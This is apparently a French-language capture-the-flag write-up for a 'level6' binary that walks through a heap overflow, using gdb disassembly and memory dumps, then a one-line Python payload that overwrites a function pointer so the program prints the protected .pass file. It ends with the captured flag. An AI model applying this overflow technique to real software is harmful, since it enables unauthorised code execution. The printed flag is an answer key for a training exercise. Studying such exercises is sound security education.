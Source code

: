 # Malloc Buffer Exploitation

En décompilant l'exécutable, on remarque qu'il :
1. alloue de la mémoire avec `malloc`.
2. y stocke l'adresse de la fonction `m` dans une des allocations.
3. appelle la fonction `m` grâce à l'adresse stockée dans l'allocation mémoire.

On remarque aussi la présence d'une fonction `n` qui affiche le contenu du fichier `.pass` à l'aide de la fonction `cat`. L'objectif ici est clair, remplacer l'adresse de la fonction `m`, contenue à l'adresse allouée par `malloc`, par l'adresse de la fonction `n`. Ainsi, nous serons en mesure d'afficher le fichier `.pass`.

Pour commencer, nous allons voir où `malloc` alloue de l'espace dans la mémoire. Pour illustrer nos explications, nous allons lancer notre exécutable avec `gdb` en prenant en argument une chaine de caractères contenant `64` caractères `A`, soit la taille en octets allouée par le premier `malloc`.
```
> gdb --args level6 "AAAA"
[...]
> (gdb) disas main
Dump of assembler code for function main:
   0x0804847c <+0>:	push   %ebp
   0x0804847d <+1>:	mov    %esp,%ebp
   0x0804847f <+3>:	and    $0xfffffff0,%esp
   0x08048482 <+6>:	sub    $0x20,%esp
   0x08048485 <+9>:	movl   $0x40,(%esp)
   0x0804848c <+16>:	call   0x8048350 <malloc@plt>
   0x08048491 <+21>:	mov    %eax,0x1c(%esp)
   0x08048495 <+25>:	movl   $0x4,(%esp)
   0x0804849c <+32>:	call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:	mov    %eax,0x18(%esp)
   0x080484a5 <+41>:	mov    $0x8048468,%edx
   0x080484aa <+46>:	mov    0x18(%esp),%eax
   0x080484ae <+50>:	mov    %edx,(%eax)
   0x080484b0 <+52>:	mov    0xc(%ebp),%eax
   0x080484b3 <+55>:	add    $0x4,%eax
   0x080484b6 <+58>:	mov    (%eax),%eax
   0x080484b8 <+60>:	mov    %eax,%edx
   0x080484ba <+62>:	mov    0x1c(%esp),%eax
   0x080484be <+66>:	mov    %edx,0x4(%esp)
   0x080484c2 <+70>:	mov    %eax,(%esp)
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:	mov    0x18(%esp),%eax
   0x080484ce <+82>:	mov    (%eax),%eax
   0x080484d0 <+84>:	call   *%eax
   0x080484d2 <+86>:	leave  
   0x080484d3 <+87>:	ret    
End of assembler dump.
```
On sait que la fonction `malloc` nous retourne un pointeur vers l'emplacement alloué. Nous allons donc `break` sur chaque instruction suivant un appel à `malloc`, soit `+21` et `+37`.
```
> (gdb) b *0x08048491
Breakpoint 1 at 0x8048491
> (gdb) b *0x080484a1
Breakpoint 2 at 0x80484a1
```
On `run`, puis on imprime `eax` pour afficher l'adresse retourné par `malloc`.
```
> (gdb) r
Starting program: /home/user/level6/level6 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x08048491 in main ()
> (gdb) x $eax
0x804a008:	0x00000000
> (gdb) c
Continuing.

Breakpoint 2, 0x080484a1 in main ()
> (gdb) x $eax
0x804a050:	0x00000000
```
Grace à `gdb`, on connait donc l'emplacement mémoire où sera copié notre premier argument, et l'adresse où sera stockée l'adresse de `m`.

**Adresse allouée de la copie du premier argument**
```
0x804a008
```
**Adresse allouée pour la fonction `m`**
```
0x804a050
```

Pour le démontrer, on peut afficher la stack après l'appel à `strcpy`. On `break` donc à `+78` et on récupère au préalable l'adresse de la fonction `m` pour la visualiser dans la stack.
```
> (gdb) x m
0x8048468 <m>:	0x83e58955
> (gdb) b *0x080484ca
Breakpoint 3 at 0x80484ca
> (gdb) c
Continuing.

Breakpoint 3, 0x080484ca in main ()
> (gdb) x/20wx 0x804a008
0x804a008:	0x41414141	0x41414141	0x41414141	0x41414141
            ^
            début de la chaine
            de caractères
0x804a018:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a028:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a038:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a048:	0x00000000	0x00000011	0x08048468	0x00000000
                                    ^
                                    adresse de m
```
On comprend avec cette visualiation, qu'en copiant un certain nombre de caractères dans notre permier espace alloué par `malloc`, nous serons en mesure d'écraser l'adresse de `m`, pour la remplacer par l'adresse de `n`. Ici, nous aurons besoin de `72` caractères pour remplir notre espace alloué juste avant l'emplacement de l'adresse de `m`.

On peut déterminer l'adresse de `n` simplement avec la commande suivante :
```
> (gdb) p n
$1 = {<text variable, no debug info>} 0x8048454 <n>
```
L'adresse de `n` est donc `0x8048454`. En `little-endian`, on obtient `\x54\x84\x04\x08`.

On peut donc exécuter la commande suivante :
```
> ./level6 `python -c 'print "A"*72 + "\x54\x84\x04\x08"'`
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
Le programme fait maintenant appel à la fonction `n` qui imprime le contenu du fichier `.pass`.
